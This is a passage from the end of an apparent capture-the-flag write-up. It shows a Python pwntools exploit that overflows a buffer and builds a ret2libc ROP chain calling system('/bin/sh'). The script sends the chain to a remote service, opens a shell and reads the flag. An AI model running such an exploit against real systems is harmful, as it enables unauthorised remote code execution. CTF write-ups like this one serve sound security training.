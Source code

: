 ```python
    # # System address (gdb -> p system)
    # system_addr = 0x7ffff784f420
    system_addr = libc.symbols["system"]
    print("System address:", hex(system_addr))


    # Exit addresslibc_base
    exit_addr = libc.symbols["exit"]
    print("Exit address:", hex(exit_addr))

    # Searching for "ret" inside binary
    ret = rop.find_gadget(['ret'])[0]
    print("ret; addr found:", hex(ret))

    payload = b"A"*64
    # Building our paylaod
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    payload += p64(exit_addr)

    # Send the payload
    proc.clean()
    proc.sendline(payload)

    # with open ('input.txt', 'wb') as out:
    #     out.write(payload)

    print(b"trying payload", payload)
    
    proc.interactive()

    res = proc.recvall(timeout=10)
    print(bytes.decode(res))


def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_pet_compagnion(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_pet_compagnion(proc)

def main():
    #run_bin_local(LOCAL_FILE_PATH)
    run_remote()

if __name__ == '__main__':
    main()
```

And that gives us a shell, allowing us to use the command `cat flag.txt` and get the flag !

Gosh, that was a hard one ! :)
`HTB{c0nf1gur3_w3r_d0g}`
